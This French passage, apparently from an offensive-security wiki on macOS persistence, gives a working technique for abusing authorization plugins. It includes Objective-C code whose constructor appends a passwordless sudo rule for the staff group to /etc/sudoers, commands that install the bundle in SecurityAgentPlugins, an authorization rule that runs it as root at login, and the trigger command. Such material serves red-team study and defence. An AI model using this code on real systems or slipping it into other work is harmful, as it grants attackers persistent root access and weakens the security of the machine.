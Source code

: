 #### Description & Exploitation

Vous pouvez créer un plugin d'autorisation qui sera exécuté lorsqu'un utilisateur se connecte pour maintenir la persistance. Pour plus d'informations sur la façon de créer l'un de ces plugins, consultez les writeups précédents (et faites attention, un plugin mal écrit peut vous verrouiller et vous devrez nettoyer votre mac depuis le mode de récupération).
```objectivec
// Compile the code and create a real bundle
// gcc -bundle -framework Foundation main.m -o CustomAuth
// mkdir -p CustomAuth.bundle/Contents/MacOS
// mv CustomAuth CustomAuth.bundle/Contents/MacOS/

#import <Foundation/Foundation.h>

__attribute__((constructor)) static void run()
{
NSLog(@"%@", @"[+] Custom Authorization Plugin was loaded");
system("echo \"%staff ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers");
}
```
**Déplacez** le bundle vers l'emplacement à charger :
```bash
cp -r CustomAuth.bundle /Library/Security/SecurityAgentPlugins/
```
Enfin, ajoutez la **règle** pour charger ce Plugin :
```bash
cat > /tmp/rule.plist <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>class</key>
<string>evaluate-mechanisms</string>
<key>mechanisms</key>
<array>
<string>CustomAuth:login,privileged</string>
</array>
</dict>
</plist>
EOF

security authorizationdb write com.asdf.asdf < /tmp/rule.plist
```
Le **`evaluate-mechanisms`** indiquera au cadre d'autorisation qu'il devra **appeler un mécanisme externe pour l'autorisation**. De plus, **`privileged`** fera en sorte qu'il soit exécuté par root.

Déclenchez-le avec :
```bash
security authorize com.asdf.asdf
```
Et ensuite, le **groupe du personnel devrait avoir un accès sudo** (lisez `/etc/sudoers` pour confirmer).
